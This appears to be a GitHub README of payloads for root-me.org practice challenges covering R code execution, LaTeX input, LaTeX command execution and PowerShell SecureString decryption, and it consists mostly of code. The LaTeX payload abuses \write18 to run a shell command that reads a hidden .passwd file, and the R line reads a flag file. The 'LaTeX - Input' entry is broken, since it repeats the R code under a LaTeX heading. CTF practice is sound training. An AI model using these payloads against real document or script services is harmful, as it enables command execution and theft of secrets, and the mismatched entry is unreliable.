 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 
```LaTex
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```
